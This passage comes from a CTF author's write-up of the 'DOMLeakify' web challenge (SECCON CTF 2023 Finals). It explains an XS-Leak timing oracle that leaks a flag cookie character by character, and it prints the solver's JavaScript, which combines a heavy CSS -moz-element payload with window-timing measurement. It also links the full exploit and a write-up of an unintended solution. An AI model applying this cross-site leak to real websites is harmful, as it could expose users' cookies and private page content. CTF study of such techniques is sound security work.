 
Okay, it is possible to detect whether the element with a given ID exists or not using typical XS-Leak techniques to judge the busy state of the browser!

Therefore, using the oracle, it is also possible to leak one character of the flag cookie at a time from the beginning.

### Solver

In my solver, the function used for the timing attack is like this:
```javascript
// https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202312_SECCON_CTF_2023_Finals/web/domleakify/solver/public/main.js#L20-L45

const measure = async (prefix) => {
  const hex = [...prefix]
    .map((c) => "\\" + c.charCodeAt(0).toString(16).padStart(2, "0"))
    .join("");
  const url = `${BASE_URL}#${encodeURIComponent(
    `<div style="background-image: -moz-element(#${hex}); height: 1000px; transform: scale(200) translate(50%, 0%); filter: drop-shadow(36px 36px 36px blue);"></div>`
  )}`;

  const ws = [];

  ws.push(open(url));
  await Promise.all(ws.map((w) => wait(w)));
  await sleep(100);

  let start = performance.now();
  for (let i = 0; i < 3; i++) {
    ws.push(open(BASE_URL));
  }
  await Promise.all(ws.map((w) => wait(w)));
  const end = performance.now();

  for (const w of ws) {
    w.close();
  }
  return end - start;
};
```

Here is my full exploit:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/domleakify/solver/

### Unintended solutions

This challenge was solved only by HK Guesser and the solution was unintended.
However, it was a creative and interesting oracle using `autoplay` of `<video>`:

- Writeups by Pencake from HK Guesser:
    - https://hackmd.io/@IOKh9vO3ReOUWJgQcV1WPQ/ryFZXFFwp#DOMLeakify


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/